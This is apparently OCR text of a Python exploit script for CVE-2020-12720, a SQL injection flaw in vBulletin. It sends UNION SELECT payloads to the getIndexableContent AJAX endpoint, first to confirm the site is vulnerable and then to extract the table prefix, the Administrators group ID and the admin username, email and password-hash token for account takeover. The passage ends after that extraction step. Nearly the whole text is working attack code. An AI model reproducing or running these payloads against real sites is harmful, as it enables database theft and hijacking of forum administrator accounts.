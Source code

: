     def getData(sUrl, lData):
        try:
            oData = urllib.parse.urlencode(lData).encode()
            oRequest = urllib.request.Request(url = sUrl, data = oData)
            return oOpener.open(oRequest, timeout = iTimeout)
        except:
            print('----- ERROR, site down?')
            sys.exit(1)

    def verifyBug(sURL,sUserid='1'):
        sPath = 'ajax/api/content_infraction/getIndexableContent'
        lData = {'nodeId[nodeid]' : '1 UNION SELECT 26,25,24,23,22,21,20,19,20,17,16,15,14,13,12,11,10,"cve-2020-12720",8,7,6,5,4,3,2,1;--'}
        sResponse = getData(sURL + sPath, lData).read().decode()
        if not 'cve-2020-12720' in sResponse:
            print('[!] Warning: not vulnerable to CVE-2020-12720, credentials are needed!')
            return False
        else:
            print('[+] SQLi Success!')
            return True

    def takeoverAccount(sURL, sNEWPASS):
        sPath = 'ajax/api/content_infraction/getIndexableContent'
        ### Source: https://github.com/rekter0/exploits/tree/master/CVE-2020-12720
        ## Get Table Prefixes
        lData = {'nodeId[nodeid]' : '1 UNION SELECT 26,25,24,23,22,21,20,19,20,17,16,15,14,13,12,11,10,table_name,8,7,6,5,4,3,2,1 from information_schema.columns WHERE column_name=\'phrasegroup_cppermission\';--'}
        sResponse = getData(sURL + sPath, lData).read().decode()
        if 'rawtext' in sResponse: sPrefix = sResponse.split('rawtext')[1].split(':')[1].replace('}','').replace('"','').replace('language','')
        else: sPrefix = ''
        #print('[+] Got table prefix "'+sPrefix+'"')

        ## Get usergroup ID for "Administrators"
        lData = {'nodeId[nodeid]' : '1 UNION SELECT 26,25,24,23,22,21,20,19,20,17,16,15,14,13,12,11,10,usergroupid,8,7,6,5,4,3,2,1 from ' + sPrefix + 'usergroup WHERE title=\'Administrators\';--'}
        sResponse = getData(sURL + sPath, lData).read().decode()
        sGroupID = sResponse.split('rawtext')[1].split(':')[1].replace('}','').replace('"','')
        #print('[+] Administrators Group ID: '+sGroupID)
        
        ## Get admin data, including original token (password hash), TODO: an advanced exploit could restore the original hash in post exploitation
        lData = {'nodeId[nodeid]' : '1 UNION SELECT 26,25,24,23,22,21,20,19,20,17,16,15,14,13,12,11,10,concat(username,0x7c,userid,0x7c,email,0x7c,token),8,7,6,5,4,3,2,1 from ' + sPrefix + 'user where usergroupid=' + sGroupID + ';--'}
        sResponse = getData(sURL + sPath, lData).read().decode()
        sUsername,sUserid,sUsermail,sUserTokenOrg = sResponse.split('rawtext')[1].split(':')[1].replace('}','').replace('"','').split('|')
        #print('[+] Got original token (' + sUsername + ', ' + sUsermail + '): ' + sUserTokenOrg)
